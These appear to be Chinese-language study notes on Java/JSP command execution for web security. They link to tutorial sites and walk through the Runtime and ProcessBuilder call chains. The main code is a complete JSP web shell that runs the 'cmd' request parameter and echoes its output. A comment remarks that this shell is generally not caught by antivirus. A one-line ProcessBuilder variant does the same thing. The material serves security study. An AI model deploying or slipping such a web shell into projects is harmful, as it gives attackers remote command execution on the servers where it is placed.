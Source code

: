 **必读**

读到 `反射UNIXProcess/ProcessImpl执行本地命令` 前

https://javasec.org/javase/CommandExecution/

读完:

https://xz.aliyun.com/t/9488#toc-0

---



### jsp基本回显和消除乱码

```java
<%@ page language="java" pageEncoding="UTF-8" %>
<%
    Runtime rt = Runtime.getRuntime();
    String cmd = request.getParameter("cmd");
    Process process = rt.exec(cmd);

    // 总而言之拼接为： Runtime.getRuntime().exec(request.getParameter("cmd")); 

	//把结果流处理一下
    java.io.InputStream in = process.getInputStream();

    // 回显，基本不用动，一般不杀
    out.print("<pre>");
    // 网上流传的回显代码略有问题，建议采用这种方式
    java.io.InputStreamReader resultReader = new java.io.InputStreamReader(in);
    java.io.BufferedReader stdInput = new java.io.BufferedReader(resultReader);
    String s = null;
    while ((s = stdInput.readLine()) != null) {
        out.println(s);
    }
    out.print("</pre>");
%>
```



### [Runtime命令执行调用链](https://javasec.org/javase/CommandExecution/#runtime%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E8%B0%83%E7%94%A8%E9%93%BE)

（暂时不懂）

切记`Runtime`和`ProcessBuilder`并不是程序的最终执行点!



最常用的:

```java
Runtime.getRuntime().exec();
```

`ProcessBuilder` 命令执行(关键代码)

```jsp
 InputStream in = new ProcessBuilder(request.getParameterValues("cmd")).start().getInputStream();
```

`UNIXProcess/ProcessImpl` 命令执行

(

JDK9的时候合并到了`ProcessImpl`,本质上还是利用了命令执行调用链**(参照[Runtime命令执行调用链])**

)

